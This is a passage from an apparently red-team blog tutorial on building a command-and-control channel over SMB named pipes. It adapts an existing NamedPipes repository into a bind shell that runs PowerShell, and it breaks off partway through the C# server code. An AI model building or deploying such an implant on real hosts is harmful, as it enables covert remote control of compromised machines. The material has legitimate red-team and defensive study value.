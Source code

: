 That's an easy question: Let's use something which is already allowed. SMB Inbound is usually allowed by default, so if there is any functionality that can be used to communicate to external parties then it can be used to establish a command-and-control mechanism with us (attackers).

That's where Named Pipes come in!

# Named Pipes

As in MSDN website, named pipes are __"one-way or duplex pipe for communication between the pipe server and one or more pipe clients"__. That fits exactly to our purpose.

By default, there is no way to control a computer using named pipes, but we have many Windows API calls to aid us in this purpose like CreateNamedPipe, ConnectNamedPipe and so on.


# Coding a named pipe bind shell with PowerShell execution capabilities

I have stumbled on a very useful repository owned by Tim MalcomVetter. If you still doesn't follow him on twitter then it is the time! Very useful red teaming tips over there.

He created a repository named "NamedPipes" which does all the hard work. It starts a named pipe for communication and then execute commands in the named pipe server.

With that stated, this code published here is just a adaptation of his original work. I haven't coded this from the beggining because I am very lazy and Tim has done all the hard work already, so... why reinvent the wheel?

To keep originality I chose to switch from executing commands using cmd.exe and to use a PowerShell runspace, because a PowerShell shell is way more useful for me than a default command prompt. 

To build our C2 using named pipes we will need mainly two entitites: A server (our compromised host) and a client (us, the attacker).

The server code:
```C#
using System;
using System.Collections.ObjectModel;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.IO;
using System.IO.Pipes;
using System.Text;

namespace Server
{
    class Server
    {
        static void Main(string[] args)
        {

            Runspace runspace = null;
             // Create a PS runspace.
            try
            {
                runspace = RunspaceFactory.CreateRunspace();
                runspace.ApartmentState = System.Threading.ApartmentState.STA; 
                runspace.Open();
            } catch
            {
                Console.WriteLine("[!] Error: Could not create a PS runspace.");
                Environment.Exit(1);
            }

           while(true)
            {
```